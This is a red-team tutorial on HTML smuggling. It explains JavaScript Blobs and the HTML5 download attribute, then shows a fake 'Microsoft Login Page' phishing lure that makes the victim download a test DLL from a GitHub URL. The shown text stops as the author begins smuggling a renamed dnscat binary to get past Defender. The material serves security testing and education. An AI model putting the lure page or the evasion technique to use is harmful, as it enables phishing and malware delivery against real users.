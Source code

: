 # HTML Smuggling

## Summary
HTML Smuggling has been around for a while, but it has seen an uptick in its usage lately with malware like Qakbot utilizing it. 
## What is it?
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag.
## What are anchor tags?
The anchor tag <a> defines a hyperlink that can be used to link one page to another resource like the script, other HTML page or downloadable files. When <a> is used with the “download” attribute, it can be used to provide links to a downloadable file. 
## What is a Javascript Blob?
JavaScript blobs are objects that are a collection of bytes that contain data stored in a file. Blob data is stored in the user’s memory. This collection of bytes can be used in the same places where an actual file would have been used. In other words, blobs can be used to construct file-like objects on the client that can be passed to JavaScript APIs that expect URLs.
Blobs are very useful for storing binary data because their content can be easily read as an ArrayBuffer. Blobs can be stored in the memory or on disk by the web browser, and they can represent truly massive bits of data that are too large to fit in the main memory unless first separated into smaller pieces with the slice () method.
The syntax for creating a JavaScript blob may be defined as:
```
new Blob("blobParts, options");
```
- Blobparts: It is an array of Blob, BufferSource, and string values.
- Options: It is an optional object.
- Type: It is a Blob type, generally MIME-type like image.png.

An example would be:
```
<!DOCTYPE html>  
<html>  
<head>  
    <meta charset="utf-8">  
    <title>JavaScript Blob</title>  
</head>  
<body>  
    <p id="main"></p>  
    <script>  
var abc = new Blob(["Wassup Playa"],   
{type : "text/plain"});  
var def = new FileReader();  
def.addEventListener("loadend", function(e) {  
document.getElementById("main").innerHTML  
     = e.srcElement.result;  
});  
def.readAsText(abc);  
</script>  
</body>  
</html>  
```
Let’s break this down:

1.	We start our HTML document with the tag HTML
2.	This is followed by <head> to indicate a header, where you can store things like meta tags as well as a title
3.	<title> is what will show at the top of the tab
4.	<body> starts the body of the HTML file
5.	<p> is to indicate a parameter. In this case we are specifying ‘main’ as an id element. Later in the HTML we will be referencing this ID. 
6.	<script> indicates that what comes next is Javascript
7.	var abc = new Blob(["Wassup Playa"],   {type : "text/plain"});  We can see this follows the Javascript Blob syntax I mentioned earlier. The text here, Wassup Playa, is what we will want shown on the page, thus it is the data element, in this case being a string value. Then its followed by the MIME type of text/plain. All of this is being assigned to the variable abc, so that whenever abc is used, it really means this Blob that has the string value of Wassup Playa
8.	Next we see a variable assigning FileReader. The FileReader object lets web applications asynchronously read the contents of files (or raw data buffers) stored on the user's computer, using File or Blob objects to specify the file or data to read. This is assigned to the variable def. https://developer.mozilla.org/en-US/docs/Web/API/FileReader 
9.	It is using the FileReader component of addEventListener, which sets up a function that will be called whenever the specified event is delivered to the target. It has the syntax of addEventListener(type, listener) So in our code, the type is FileReader’s loadend event https://developer.mozilla.org/en-US/docs/Web/API/FileReader/loadend_event The loadend event is fired when a file read has completed, successfully or not. Next part is function(e). Function is the function to run when the event occurs, which in this case is the loadend event. 
10.	Next it looks through the document table and gets the element named ‘main’, which we defined earlier in the start of our paragraph. innerHTML sets or returns the HTML content (inner HTML) of an element. In the case of our code, it is setting or changing the value that was in the element with the id of ‘main’ to e.srcElement.result
11.	Next, we see the readAsText portion. This starts reading the contents of the specified Blob, once finished, the result attribute contains the contents of the file as a text string. The Blob is referenced by its variable abc.
12.	The rest of the code just closes out the rest of the HTML document

If we save that and run it in a browser we will see the words Wassup Playa. 
## HTML5 Download Attribute
One way that we can get a user to download something is using the download attribute from HTML5. For this I hosted an Atomic Red Team test dll called s.dll. The raw file can be found [here](https://github.com/sh1katagana1/RedTeam/raw/main/s.dll) So my HTML page that I would send to the victim could look like this (obviously this is not very pretty, just functional for testing)
```
<html>
<body>
<h1>Microsoft Login Page!</h1>
<p>Alert! We detected some unusual activity, Login to continue. </p>
<a href="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll" download="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll">Login Here</a>
</body>
</html>
```
If we load that page we should see the Microsoft Login Page! text and it should prompt for download of s.dll when you click "login to continue". You can see how it can be crafted in whatever way you want, but all that’s being emailed is the HTML that does this. Additionally, the victim may have their browser at default settings which wouldn’t give this prompt but just download it. 

## Malicious Smuggle Test
Now that we have seen benign usage of some ways to do HTML Smuggling, lets try with an actual binary. For this I am using a renamed version of dnscat because I know Defender blocks it as malicious. The dnscat executable I have renamed to leroy3.exe. 
![](smuggle1.png)


